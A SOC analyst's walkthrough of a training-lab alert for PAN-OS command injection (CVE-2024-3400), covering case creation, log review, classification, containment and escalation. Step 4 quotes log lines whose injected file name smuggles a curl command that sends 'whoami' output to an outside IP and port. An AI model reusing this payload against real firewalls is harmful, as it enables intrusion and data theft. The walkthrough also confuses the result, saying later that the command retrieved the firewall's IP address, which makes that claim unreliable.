 # ⭐ SOC274 - Palo Alto Networks PAN-OS Command Injection Vulnerability Exploitation (CVE-2024-3400)  

## Overview  

![Overview](https://github.com/user-attachments/assets/c4a00a9d-38ff-419d-97cf-f7e4d4f2fc3f)  

This investigation addresses the **SOC274 - Palo Alto Networks PAN-OS Command Injection Vulnerability Exploitation** alert, categorized as **Critical**. Immediate and thorough investigation is necessary to assess the impact and contain the threat.  

---

## Investigation Steps  

### 1. **Creating a Case**  
To begin the investigation, create a case by selecting the **"Create Case"** button on the investigation page.  
![Create Case](https://github.com/user-attachments/assets/c39c9701-5f0c-434e-946c-8443564513e7)  

Once created, the case is opened in **Case Management**, where the investigation will follow the provided **playbook**. Click on **"Start Playbook"** to proceed.  
![Playbook Start](https://github.com/user-attachments/assets/62206a5d-887b-4a6b-aaf4-3f462debb579)  

---

### 2. **Understanding the Alert**  
The alert was triggered when a **POST method request** was sent to the firewall. The **session cookie** within the request contained the **`whoami` command**, used to retrieve the **current user** on the firewall. This command injection within the session cookie is the source of the alert.  
![Alert Triggered](https://github.com/user-attachments/assets/51ae009f-d36b-45f6-b5bd-8ca4a4c1e033)  

---

### 3. **Collecting Key Data**  
The playbook requires answers to several key questions:  
- **If traffic originated from the Internet:**  
  - **Ownership of the IP address** (Static, Pool Address, Web Hosting, etc.)  
  - **IP Reputation** (Check via **VirusTotal**, **AbuseIPDB**, **Cisco Talos**)  
- **If traffic originated from the company network:**  
  - **Hostname** of the source device  
  - **Owner (Username)** of the device  
  - **Last Logon Time**  

Collect and document these answers before moving to the next step.  
![Collect Data](https://github.com/user-attachments/assets/2d472466-674e-424f-b1d4-b50ece83dfcc)  

---

### 4. **Reviewing HTTP Traffic**  
Open **endpoint security** tools and **log management** to examine **HTTP traffic**. After reviewing raw logs, two suspicious entries were identified containing commands sent to the firewall.  

**Logs:**  
2024-04-18 15:09:42,629: dt_send INFO TX_DIR: send file dir: fname: /opt/panlogs/tmp/device_telemetry/day/aaacurl${IFS}144.172.79.92:4444?user=`$(whoami)`
2024-04-18 15:09:42,629 : dt_send INFO TX FILE: send_fname: /opt/panlogs/tmp/device_telemetry/day/aaacurl${IFS}144.172.79.92:4444?user=`$(whoami)`
2024-04-18 15:09:42,630: dt_send INFO TX_FILE: dest server ip: 144.172.79.92
2024-04-18 15:09:42,630 : dt_send INFO TX FILE: send_file_cmd: /usr/local/bin/dt_curl -i 172.16.17.139 -f /opt/panlogs/tmp/device_telemetry/day/aaacurl${IFS}144.172.79.92:4444?user=`$(whoami)`


This traffic confirms **command injection** from an external IP address (**144.172.79.92**) using the **`whoami`** command to retrieve user information.  
![Raw Logs](https://github.com/user-attachments/assets/11b5d1f9-f693-4109-8642-f7024f6e829f)  

---

### 5. **Determining Maliciousness**  
Based on the logs, the **traffic is confirmed as malicious**. Select **"Malicious"** in the playbook to proceed.  
![Malicious Traffic](https://github.com/user-attachments/assets/678e9ca5-fd44-4b0b-b940-9d60540ff6ea)  

---

### 6. **Identifying Attack Type**  
The next step is to identify the attack type. In this case, it is **Command Injection**. Select **"Command Injection"** to continue.  
![Attack Type](https://github.com/user-attachments/assets/783cc046-940e-4a57-b1a5-c5344e0931ec)  

---

### 7. **Checking for Attack Simulation Products**  
If the traffic was generated by **attack simulation tools** (e.g., Verodin, AttackIQ, Picus), it might be a planned test. However, no evidence of such products was found. Therefore, select **"Not Planned"** to proceed.  

---

### 8. **Traffic Direction**  
The direction of traffic is identified as **Internet to Company Network**. The **destination** is the **PA-Firewall device** (internal network), and the **source** is a **public IP address**.  
![Direction of Traffic](https://github.com/user-attachments/assets/60f1ce0e-f7cf-4a5b-9781-bb0dc9ac9318)  

---

### 9. **Checking Command Execution**  
Review the **command history** in the **endpoint security** system to confirm if the malicious command was executed. The logs confirm that the **PA-Firewall IP address** was successfully retrieved using the injected command.  

This confirms the **attack was successful**.  
![Successful Attack](https://github.com/user-attachments/assets/f06dfd5c-2337-4850-88b5-5573622be88f)  

---

### 10. **Requesting Containment**  
Since the attack was successful, the affected system must be **contained** to prevent further compromise. Click **"Request and Change to Contain"** to proceed.  
![Containment](https://github.com/user-attachments/assets/dbd05743-4506-400d-9027-2817f7b24744)  

---

### 11. **Submitting Artifacts**  
Enter all **artifacts** (e.g., IP addresses, session cookies) identified during the investigation in the playbook.  
![Artifacts](https://github.com/user-attachments/assets/ec72a8be-ec46-4dd5-920a-1300acc22182)  

---

### 12. **Escalating to Tier 2**  
Due to the **successful attack** and sensitive nature of the target, escalate the case to **Tier 2** for further analysis.  
![Escalate to Tier 2](https://github.com/user-attachments/assets/2a6d418b-e084-4dae-8600-100e90351e0d)  

---

### 13. **Finalizing the Playbook**  
Document the investigation findings:  
- **Confirmed true positive**: The attack was successful.  
- **Command injection** was used to retrieve the IP address of the PA-Firewall.  
- **System containment** was requested, and the case was **escalated to Tier 2**.  

Click **"Finish Playbook"** to complete the investigation.  
![Finish Playbook](https://github.com/user-attachments/assets/2a6d418b-e084-4dae-8600-100e90351e0d)  

Finally, close the alert by selecting **"True Positive"**.  
![Close Alert](https://github.com/user-attachments/assets/3a7ccc17-fdb0-44ae-87a2-5ee65deed912)  

---

## Conclusion  

This investigation confirms that the alert is a **true positive**. The **command injection attack** successfully retrieved the **current IP address** of the PA-Firewall. The system has been **contained** to prevent further exploitation, and the case has been **escalated to Tier 2** for advanced analysis.  

Stay vigilant and proactive in your security efforts!
